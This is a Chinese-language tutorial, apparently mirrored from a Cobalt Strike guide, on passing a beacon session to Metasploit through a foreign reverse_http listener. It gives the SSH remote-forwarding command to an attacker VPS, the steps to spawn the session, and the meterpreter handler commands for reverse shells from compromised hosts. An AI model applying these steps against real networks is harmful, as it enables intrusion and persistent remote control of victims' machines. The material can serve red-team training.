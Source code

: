 > 原文：[http://book.iwonder.run/Tools/Cobalt Strike/11.html](http://book.iwonder.run/Tools/Cobalt Strike/11.html)

## windows/foreign/reverse_http [ 反向 http 外部监听器 ]

> 所谓的外部监听器,说白点就是为了更方便的去配合其它的一些渗透工具进行协同渗透而设计的,相信有些朋友可能对 metasploit 或者 empire [ 心里话,个人觉得它很垃圾,也极少用,一般都直接是把里面的 powershell 脚本单独抠出来用 ] 比较熟悉,平时可能也比较喜欢拿他们去做些内网渗透工作,那么现在问题来了,比如,我现在通过其它方式已经拿到了目标内网一台机器的 beacon shell,但由于 CobaltStrike 自身内置的相关内网渗透功能太少,我还是想用 msf 或者 empire 继续去渗透目标内网,该怎么办呢? 这时候 CobaltStrike 的外部监听器就开始发会作用了,我们可以通过 beacon 内置的派生功能,直接通过 ssh 隧道派生一个 meterpreter 到自己本地的 msf 上,过程非常简单,具体操作如下
> 
> 首先,我们需要先把本地和自己 vps 的之间的 ssh 隧道打通,因为等会儿要把派生的那个流量通过 ssh 隧道直接转发到我本地,第一步,连到自己的 vps 上,编辑 ssh 服务配置文件开启 ssh 转发功能,之后重启 ssh 服务,此处一定要记得重启服务之后它才能生效,如下

```
# egrep "AllowTcpForwarding yes|GatewayPorts yes|TCPKeepAlive yes|PasswordAuthentication yes" /etc/ssh/sshd_config 
```

![image](img/8847020f238a26590a68d4b7268bd89b.png)

> 之后回到本地 linux 机器上,开始尝试和自己的 vps 建立 ssh 隧道,并执行如下转发[-R 即所谓的从远程转发到本地],下面这条 ssh 命令的意思就是通过 207.148.75.85[vps]这台机器把来自外部的 8080 端口的流量都转发我们本地的 192.168.3.57 这个地址的 8081 端口上,这样一来,当别人去连 207.148.75.85 的 8080 端口就相当于直接连到了我本地的 192.168.3.57 这个地址的 8081 端口上,而本地的 192.168.3.57 的 8081 端口又正好是我们事先准备好的 msf 监听器,这才直接导致了公网的 meterpreter 也可以直接在本地的 msf 中上线

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.57:8081 root@207.148.75.85 -p 22
# ps -ef | grep "192.168.3.57" 
```

![image](img/798209099f665f2183d7014a33bb2d6e.png)

> Ssh 隧道打通以后,可以去 vps 上看下端口到底有没有起来,不要弄了半天不上线,才发现原来端口都没起来,岂不尴尬

```
# netstat -tulnp 
```

![image](img/c122abad08e379123a72af7b847ab586.png)

> 有了 ssh 隧道,剩下的事情就很简单了,新建一个外部监听器,特别注意这个协议和端口,有很多人不上线都是因为这个协议不匹配或者端口弄错了,此处我们用外部监听器中的 reverse_http,端口用 8080,这儿既然用了 http 8080,那么后面的 meterpreter payload 也一定要用 http 和 8080 端口,不然两边端口对不上,协议又不匹配,数据无法实现交换,是不可能上线的,所以,这个地方务必要特别仔细小心

![image](img/2bfa7cbab644342a8944a7ab5738d461.png)

![image](img/cfc2726ede6ac592c978116ddadf0665.png)

> 比如,我们现在想通过弹回来的这个 beacon shell,再弹回一个 meterpreter 好去进行内网渗透,就可以利用 beacon 内置的"spawn"[派生]功能,将其派生到指定的外部监听器上,刚才忘了说,外部监听器的流量不再是弹到自己的 CobaltStrike 团队服务器上,而是直接弹到指定的远程机器的指定端口上的

![image](img/4133da8c7b8132738dfeea9c1c660dbf.png)

![image](img/736875996d97a554746a20e8d91d4ce1.png)

> 这样一来,当我们选择外部监听器进行派生时,流量就会被弹到我们指定的 ip 和端口上,比如,此处是弹到我们 vps 的 8080 端口上,而我们事先又已经通过 ssh 隧道将 vps 的 8080 端口的流量直接转到了我本地的 192.168.3.57 的 8081 端口上,所以最终实现的效果便是来自己公网的 meterpreter 直接在自己本地上线了,不过相比正常弹回的 meterpreter,这样过来的 meterpreter 会明显感觉有些慢,另外,这样做的好处就在于,不会轻易的把 beacon shell 给搞掉,更保险一点,实际效果如下

```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_http
msf5 > set lhost 192.168.3.57
msf5 > set lport 8081
msf5 > set exitonsession false
msf5 > exploit -j
msf5 > sessions -i 1
meterpreter > sysinfo
meterpreter > getuid 
```

![image](img/2ed6fcde527e940662ff956d8b4433dc.png)

